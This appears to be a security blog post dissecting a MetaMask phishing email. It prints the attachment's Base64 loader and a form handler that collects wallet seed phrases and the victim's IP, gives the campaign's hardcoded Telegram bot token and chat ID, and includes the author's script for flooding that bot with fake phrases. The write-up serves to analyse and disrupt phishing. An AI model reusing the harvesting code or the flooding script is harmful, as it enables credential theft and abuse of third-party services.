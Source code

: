 ```yaml
---
title: "Dissecting a MetaMask phishing email"
date: 2024-10-27T21:04:50+02:00
draft: false
tags: ["phishing"]
---
```


A few days ago, I received a pretty credible-looking MetaMask phishing email stating that my account had been locked due to an attempt to connect a new device to it. It sparked my interest and I decided to spend a bit of time looking into how the technical side of the whole campaign was structured, and potentially even disrupt it.

## Email attachment

The attached HTML file `RemovedDevice.html` contained a barebones HTML structure with a bit of JS and a long Base64 encoded string that'd get decoded and attached back to the HTML body using jQuery.

```javascript
$(document).ready(function () {
  saveFile();
});

function saveFile(name, type, data) {
  if (data != null && navigator.msSaveBlob)
    return navigator.msSaveBlob(new Blob([data], { type: type }), name);
  var a = $("<a style='display: none;'/>");

  var encodedStringAtoB = "<base64-encoded-string>";
  var decodedStringAtoB = atob(encodedStringAtoB);
  const myBlob = new Blob([decodedStringAtoB], { type: "text/html" });
  const url = window.URL.createObjectURL(myBlob);

  a.attr("href", url);
  $("body").append(a);
  a[0].click();
  window.URL.revokeObjectURL(url);
  a.remove();
}
```

The resulting page would display 12/15/18/21/24 input fields for crypto wallet seed phrases of varying lengths.

The backend of this campaign relied on Telegram, and as usual neither the API token nor the chat ID were even attempted to be obfuscated. This could be tied to the fact that even the template usage information was still present in the source code :^\)

Telegram's chat IDs are structured in a way where supergroups and channels always have IDs with `-100` prefix, so it was straightforward to determine that this campaign's data was being exfiltrated into a private chat.

```javascript
// Add your telegram token,chatid
const token = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0";
const chatId = "7839331161";
```

Before sending the gathered information to the chat, the JS snippet would also make a quick GET request to get the victim's public IP and related location data. I couldn't really figure out the point of this as MetaMask is a self-custodial wallet and doesn't utilize any kind of fraud prevention system that could stop the attacker from draining the targeted account if their geolocation didn't match the wallet's owner.

```javascript
wordForm1.addEventListener("submit", (e) => {
  e.preventDefault();
  errbox.classList.add("hide");
  let regex = /[!`@#$~%^&*()\-+={}[\]:;"'<>,.?\/|\\]/;
  let regex2 = /\d/;
  let pass = false;

  for (let i = 0; i < word12Input.length; i++) {
    if (regex.test(word12Input[i].value) || regex2.test(word12Input[i].value)) {
      pass = true;
    }
  }
  if (pass) {
    errbox.classList.remove("hide");
  } else {
    if (
      word12_1.value === "" ||
      word12_2.value === "" ||
      word12_3.value === "" ||
      word12_4.value === "" ||
      word12_5.value === "" ||
      word12_6.value === "" ||
      word12_7.value === "" ||
      word12_8.value === "" ||
      word12_9.value === "" ||
      word12_10.value === "" ||
      word12_11.value === "" ||
      word12_12.value === ""
    ) {
      btncofirm1.disabled = true;
    } else {
      preloader.classList.remove("hide");

      let data = `IP: ${ip.ip}\nRegion: ${ip.region}\nTime Zone: ${ip.timezone}\nWord 1: ${word12_1.value} \nWord 2: ${word12_2.value} \nWord 3: ${word12_3.value} \nWord 4: ${word12_4.value} \nWord 5: ${word12_5.value} \nWord 6: ${word12_6.value} \nWord 7: ${word12_7.value} \nWord 8: ${word12_8.value} \nWord 9: ${word12_9.value} \nWord 10: ${word12_10.value} \nWord 11: ${word12_11.value} \nWord 12: ${word12_12.value}`;
      postData(data);
      setTimeout(() => {
        preloader.classList.add("hide");
        noDone.classList.add("hide");
        done.classList.remove("hide");
        timer2(10);
      }, 4000);
    }
  }
});
```

## Greetings

Using the API token and the chat ID I was able to find out a bit more information about the bot itself via a `getMe` request and even flood the operator's inbox with randomly generated data to make it more difficult to detect any actual seed phrases from a large amount of made-up responses:

```json
{
  "ok": true,
  "result": {
    "id": 7686154983,
    "is_bot": true,
    "first_name": "wegomakeit",
    "username": "wegomakeit_bot",
    "can_join_groups": true,
    "can_read_all_group_messages": false,
    "supports_inline_queries": false,
    "can_connect_to_business": false,
    "has_main_web_app": false
  }
}
```

```python
import random
import requests
from time import sleep
from address import generate_residential_ip
from phrase import generate_seed_phrase, bip39_words

TOKEN = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0"
CHAT_ID = "7839331161"
API_BASE_URL = f"https://api.telegram.org/bot{TOKEN}"


def construct_msg(words):
    ip, region, timezone = generate_residential_ip()
    phrase = generate_seed_phrase(words, random.choice([12, 15, 18, 21, 24]))

    ip_str = f"IP: {ip}\nRegion: {region}\nTime Zone: {timezone}\n"
    phrase_str = ""

    for i, w in enumerate(phrase):
        w_str = f"Word {i + 1}: {w} \n"
        phrase_str += w_str

    return ip_str + phrase_str


def send_msg(words, chat_id):
    payload = {"chat_id": chat_id, "text": construct_msg(words)}
    res = requests.post(f"{API_BASE_URL}/sendMessage", data=payload)
    print(res.text)


words = bip39_words()

while True:
    send_msg(words, CHAT_ID)
    sleep(random.randint(1, 10))
```

I left the bot running in a Docker container for some time, and in the end I was able to send roughly 10k messages before the operator revoked the API token. The whole campaign was ruined at this point as the original token was hardcoded into the attachment, and replacing it in the already-sent emails wouldn't be possible.

Next time I get a cryptocurrency-related phishing email like this, I'd like to try tracking the stolen funds by giving out the seed phrase of a fresh wallet with e.g. $5-10 USD worth of funds inside and see what kind of anti-forensic methods the attacker would utilize (although given the quality of this campaign, they'd probably just deposit immediately into a full-KYC CEX).
